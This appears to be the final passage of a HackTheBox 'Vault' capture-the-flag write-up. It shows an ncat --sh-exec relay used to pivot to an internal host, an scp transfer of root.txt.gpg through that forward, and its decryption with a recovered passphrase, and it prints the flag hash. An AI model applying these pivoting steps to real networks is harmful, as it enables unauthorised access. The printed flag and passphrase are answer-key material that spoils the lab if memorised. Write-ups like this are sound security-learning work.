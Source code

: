 ```bash


Last login: Mon Sep  3 16:48:00 2018
dave@vault:~$ 
```
And we're on the vault machine as Dave now sick. We can see this root.txt.gpg file here, if we transfer it back to Dave's ubuntu machine that has his gpg keys maybe we can open it. 
```bash
dave@vault:~$ ls
ls
root.txt.gpg
dave@vault:~$ file root.txt.gpg
file root.txt.gpg
root.txt.gpg: PGP RSA encrypted session key - keyid: 10C678C7 31FEBD1 RSA (Encrypt or Sign) 4096b .
```

Just make sure our listener on DNS is up and running 
```bash
root@DNS:/var/www/html# /usr/bin/ncat -l 1234 --sh-exec 'ncat 192.168.5.2 987 -p 4444'
```

Then we can SCP it back from vault to our first victim box and its all over. The last password we need to unlock the secret key for root.txt is "itscominghome" that we found back in dave's /home on this ubuntu machine.
```
dave@ubuntu:~$ scp -P 1234 dave@192.168.122.4:~/root.txt.gpg .
dave@192.168.122.4's password: 
root.txt.gpg                             100%  629     0.6KB/s   00:00    
dave@ubuntu:~$ gpg -d root.txt.gpg 

You need a passphrase to unlock the secret key for
user: "david <dave@david.com>"
4096-bit RSA key, ID D1EB1F03, created 2018-07-24 (main key ID 0FDFBFE4)

gpg: encrypted with 4096-bit RSA key, ID D1EB1F03, created 2018-07-24
      "david <dave@david.com>"
ca468370b91d1f5906e31093d9bfe819
dave@ubuntu:~$ 
```
Thanks for creating that nol0gz, had a lot of fun and a few a-hah moments with some of those steps and the port forwarding is always really cool to figure out with these machies. Most def one of the top two or three boxes I've done so far on HTB.






